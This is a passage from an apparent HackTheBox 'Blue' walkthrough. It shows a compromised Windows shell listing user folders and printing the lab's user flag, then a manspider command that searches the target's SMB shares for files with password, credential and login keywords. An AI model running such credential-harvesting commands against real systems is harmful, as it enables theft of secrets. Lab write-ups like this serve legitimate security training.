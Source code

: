 ```bash
 Volume in drive C has no label.
 Volume Serial Number is BE92-053B

 Directory of C:\Users

21/07/2017  07:56    <DIR>          .
21/07/2017  07:56    <DIR>          ..
21/07/2017  07:56    <DIR>          Administrator
14/07/2017  14:45    <DIR>          haris
12/04/2011  08:51    <DIR>          Public
               0 File(s)              0 bytes
               5 Dir(s)   2,428,215,296 bytes free

C:\Windows\system32>type C:\Users\haris\Desktop\user.txt
type C:\Users\haris\Desktop\user.txt
3e9b95900097f7571c1a10c54560e7b4
```


# Additional
---

## Harvest sensitive data from smb shares


### Manspider

> Just for fun

```bash
┌──(bravosec㉿fsociety)-[~/htb/Blue]
└─$ manspider blue.htb -f passw user admin account network login logon cred -d za.tryhackme.loc -u 'a' -p ''
```

![](/assets/obsidian/a81819c52b3de72b0ba46d800062e3f6.png)

I don't think there's something valuable from `Default User`, but I'll still give it a try


### Analyze NTUSER.DAT
